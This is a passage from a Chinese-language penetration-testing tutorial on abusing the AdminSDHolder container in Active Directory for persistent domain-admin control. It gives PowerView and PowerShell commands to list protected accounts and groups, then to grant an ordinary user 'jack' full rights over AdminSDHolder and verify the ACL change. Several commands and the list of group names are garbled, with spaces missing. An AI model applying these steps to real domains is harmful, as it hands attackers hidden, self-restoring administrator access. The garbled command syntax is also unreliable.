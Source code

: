 # 0x03 AdminSDHolder组

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护AD账户和组的模板，当我们获取到域控权限，就可以通过授予该用户对容器进行滥用，使该用户成为域管。

默认情况下，该组的 ACL 被复制到所有“受保护组”中。这样做是为了避免有意或无意地更改这些关键组。但是，如果攻击者修改了AdminSDHolder组的
ACL，例如授予普通用户完全权限，则该用户将拥有受保护组内所有组的完全权限（在一小时内）。如果有人试图在一小时或更短的时间内从域管理员中删除此用户（例如），该用户将回到组中。

    
    
    在server2000中引入，默认包含如下的组：AdministratorsDomainAdminsAccountOperatorsBackupOperatorsDomainControllersEnterpriseAdminsPrintOperatorsReplicatorRead-only DomainControllersSchemaAdminsServerOperators

其中Administrators、Domain Admins、Enterprise
Admins组对AdminSDHolder上的属性具有写权限，受保护的ad账户和组的具备admincount属性值为1的特征。

![](https://gitee.com/fuli009/images/raw/master/public/20210814114536.png)

## 3.1 使用powerview查询

查询ad保护的域的用户

    
    
    Get-NetUser-AdminCount|select samaccountname

![](https://gitee.com/fuli009/images/raw/master/public/20210814114537.png)

查询域中受ad保护的所有组

    
    
    Get-netgroup -AdminCount| select name

![](https://gitee.com/fuli009/images/raw/master/public/20210814114538.png)

## 3.2 使用ActiveDirectory

查询ad保护的域中所有的用户和组

    
    
    Import-ModuleActiveDirectoryGet-ADObject-LDAPFilter"(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))"|select name

![]()

## 3.3 添加用户

添加jack用户对其有完全控制权限。

    
    
    Add-DomainObjectAcl-TargetIdentityAdminSDHolder-PrincipalIdentity jack -RightsAll

然后验证下，这里的sid为jack用户的。

    
    
    Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier-match "S-1-5-21-151877218-3666268517-4145415712-1106"} | select objectdn,ActiveDirectoryRights |sort -Unique
